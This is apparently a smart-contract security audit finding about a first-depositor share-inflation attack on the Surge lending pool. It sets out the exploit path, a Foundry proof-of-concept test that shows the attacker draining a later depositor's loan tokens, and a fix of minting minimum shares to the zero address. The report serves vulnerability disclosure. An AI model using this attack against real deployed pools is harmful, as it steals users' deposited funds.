 0xc0ffEE

high

# An early malicious depositor can manipulate issuance of shares to steal users deposited loan token

## Summary
This is a well-known attack vector, same as finding TOB-YEARN-003 from [here](https://github.com/yearn/yearn-security/blob/master/audits/20210719_ToB_yearn_vaultsv2/ToB_-_Yearn_Vault_v_2_Smart_Contracts_Audit_Report.pdf)
## Vulnerability Detail
Division rounding causes issuance of shares wrong which makes depositors receive less share than expected

Consider exploit path:
1. After pool deployed, Alice deposits 2 wei loan token and receives 2 shares
2. Later, Bob deposits `x` loan tokens
3. Alice knows Bob's transaction and front-runs Bob by transferring `x-1` loan tokens to Pool contract
4. Bob receives 1 shares token
5. Alice withdraw all her shares to receive ~ 2/3 pool loan token
 
 
 POC
 ```solidity
 function testExploit() external {
        address userA = vm.addr(12315125);
        vm.startPrank(userA);
        uint256 amount = 1e36;
        MockERC20 collateralToken = new MockERC20(0, 18);
        MockERC20 loanToken = new MockERC20(amount, 18);
        vm.label(address(collateralToken), "Coll Token");
        Pool pool = factory.deploySurgePool(
            IERC20(address(collateralToken)),
            IERC20(address(loanToken)),
            1e18,
            0.8e18,
            1e15,
            1e15,
            0.1e18,
            0.4e18,
            0.6e18
        );

        address userB = address(1235);
        loanToken.transfer(userB, 1e6);
        uint256 balBefore = loanToken.balanceOf(userA);
        loanToken.approve(address(pool), amount);
        pool.deposit(2);

        loanToken.transfer(address(pool), 99);
        
        changePrank(userB);
        loanToken.approve(address(pool), amount);
        pool.deposit(100);

        changePrank(userA);
        pool.withdraw(type(uint256).max);
        uint256 balAfter = loanToken.balanceOf(userA);
        assertTrue(balAfter > balBefore);
    }
```
## Impact
Later depositors loan tokens could be stolen
## Code Snippet
https://github.com/sherlock-audit/2023-02-surge/blob/main/surge-protocol-v1/src/Pool.sol#L324
https://github.com/sherlock-audit/2023-02-surge/blob/main/surge-protocol-v1/src/Pool.sol#L199-L204
## Tool used
Manual Review, Foundry

## Recommendation
When totalSupply() == 0, issue a minimum number of pool tokens to zero address to enable share dilution
